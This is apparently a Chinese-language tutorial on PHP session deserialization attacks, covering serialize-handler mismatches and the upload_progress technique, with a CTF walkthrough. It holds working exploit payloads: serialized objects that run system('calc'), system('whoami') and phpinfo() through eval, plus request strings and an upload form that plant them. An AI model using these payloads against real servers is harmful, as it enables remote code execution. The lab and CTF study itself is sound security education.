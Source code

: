 # 一、PHP Session机制

当通过`session_start()`开启会话后，PHP根据客户端的PHPSESSID获取当前会话数据

（即session文件，文件名为sess_PHPSESSID值，位于temp文件夹下）

![image-20221018195513630](../images/image-20221018195513630.png)

随便打开一个看看，会发现里面其实是序列化的值
PHP会自动解析session文件的内容，并填充到`$_SESSION`超级全局变量中。

若客户端未发送PHPSESSID，则创建一个由32个字母组成的PHPSESSID，并返回set-cookie。

PHP解析session文件的过程，实际上就是反序列化的过程

对此，PHP有三种**session处理引擎**：php、php_serialize、php_binary

```php
<?php
//ini_set("session.serialize_handler", "php");
//ini_set("session.serialize_handler", "php_serialize");
//ini_set("session.serialize_handler", "php_binary");
session_start();
$_SESSION['doge'] = "Taco";
var_dump($_SESSION);
```



> php:  doge|s:4:"Taco";       // 键名|after serialize
>
> php_serialize:  a:1:{s:4:"doge";s:4:"Taco";}       // array after serialize
>
> php_binary:  <0x04>doges:4:"Taco";   // 键名长度对应的ASCII字符+键名s+after serialize



`php_ini`中可以设置`session.serialize_handler`

PHPINFO可以查看

![image-20221018202001193](../images/image-20221018202001193.png)



# 二、session引擎利用

```php
<?php
// test.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
class BackDoor {
	public $cmd;
	function __wakeup(){
		eval($this->cmd);
	}
}
$a = $_SESSION['hack'];
var_dump($a);
unserialize($a);
```

```php
<?php
// fun.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['hack']=$_GET['hack'];
```

构造payload

```php
<?php
class BackDoor {
    public $cmd="system('calc');";
}
echo serialize(new BackDoor());
// O:8:"BackDoor":1:{s:3:"cmd";s:15:"system('calc');";}
```

接着访问`/fun.php?hack=O:8:"BackDoor":1:{s:3:"cmd";s:15:"system('calc');";}`
序列化字符串被记录到session文件中。

![image-20221018203905762](../images/image-20221018203905762.png)

接着访问test.php，`$_SESSION['hack']`被取出进行反序列化，执行`__wakeup`、getshell

上面的案例中，比较鸡肋的地方就是需要有明确的`unserialize($a)`
为什么呢？session引擎自动反序列化的确是有的，但我们传入的序列化字符串是作为`string`反序列化的，而不是本身序列化字符串的反序列化（说得可能有点绕）

看看下面的例子，当两个php文件使用不同的session引擎，会碰撞出什么火花

```php
<?php
// test.php
ini_set("session.serialize_handler", "php");
session_start();
class BackDoor {
	public $cmd;
	function __wakeup(){
		eval($this->cmd);
	}
}
```

```php
<?php
// fun.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['hack']=$_GET['hack'];
```

上面提到了session引擎中，`php引擎`以`|`作为键名和序列化字符串的分界

而`php_serialize引擎`处理后的就是序列化的`$_SESSION`数组

构造恶意序列化字符串

```php
<?php
class BackDoor {
    public $cmd="phpinfo();";
}
echo serialize(new BackDoor());
// |O:8:"BackDoor":1:{s:3:"cmd";s:10:"phpinfo();";}
// 前面加了个竖线|
```

访问`/fun.php?hack=|O:8:%22BackDoor%22:1:{s:3:%22cmd%22;s:10:%22phpinfo();%22;}`

得到的session文件内容如下：
`a:1:{s:4:"hack";s:48:"|O:8:"BackDoor":1:{s:3:"cmd";s:10:"phpinfo();";}";}`

接着访问`test.php`，成功执行`phpinfo`
由于其使用`php引擎`，`竖线|`左边变成键名，右边变成序列化字符串，引擎会自动将其反序列化。

# 三、upload_process机制

上面两个案例中，服务端Session中存储了我们传入的值`$_SESSION['hack']=$_GET['hack'];`

若程序中没有出现上面类似的代码，是不是没办法反序列化了？

其实php存在一个`upload_process`机制，会自动在$_SESSION中创建一个键值对

![image-20221018212719363](../images/image-20221018212719363.png)

感觉就是通过这个机制来做出前端那种**上传进度条**的效果

需要在php.ini配置

>
> //当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中
> session.upload_progress.enabled=On 
>
> session.upload_progress.cleanup=Off  // 防止文件上传结束后把生成的$_SESSION中的键值对给清理掉

我们需要先上传文件，同时POST一个与`session.upload_process.name`的同名变量

直接看一道经典的CTF题

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('__FILE__'));
}
```

访问`http://127.0.0.1/test/test.php?phpinfo`

![image-20221018222742543](../images/image-20221018222742543.png)

构造payload

```php
<?php
class OowoO
{
    public $mdzz="system('whoami');";
}
$a = new OowoO();
echo serialize($a);
// O:5:"OowoO":1:{s:4:"mdzz";s:17:"system('whoami');";}
```

编写上传文件的表单

```html
<form action="http://127.0.0.1/test/test.php" method="post" enctype="multipart/form-data">
    <input type="file" name="myFile" />
    <input type="submit" value="提交" />
</form>
```

![image-20221018224053103](../images/image-20221018224053103.png)

此时再看看session文件

`a:1:{s:22:"upload_progress_aaaaaa";a:5:{s:10:"start_time";i:1666103954;s:14:"content_length";i:431;s:15:"bytes_processed";i:431;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:6:"myFile";s:4:"name";s:53:"|O:5:"OowoO":1:{s:4:"mdzz";s:17:"system("whoami");";}`

由于使用的是`php-session引擎`，将`竖线|`右边的值自动反序列化
